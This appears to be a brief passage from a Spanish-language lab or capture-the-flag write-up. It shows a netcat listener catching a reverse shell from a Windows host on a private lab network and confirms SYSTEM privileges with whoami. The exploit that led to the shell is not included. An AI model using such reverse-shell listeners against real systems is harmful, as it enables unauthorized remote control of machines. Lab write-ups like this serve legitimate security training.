 Y obtenemos la shell como `nt authority\system`

```bash
$ nc -nlvp 8889
listening on [any] 8889 ...
connect to [10.0.2.5] from (UNKNOWN) [10.0.2.141] 49171
Microsoft Windows [Versi�n 6.3.9600]
(c) 2013 Microsoft Corporation. Todos los derechos reservados.

C:\Windows\system32>whoami 
whoami
nt authority\system

C:\Windows\system32>
```

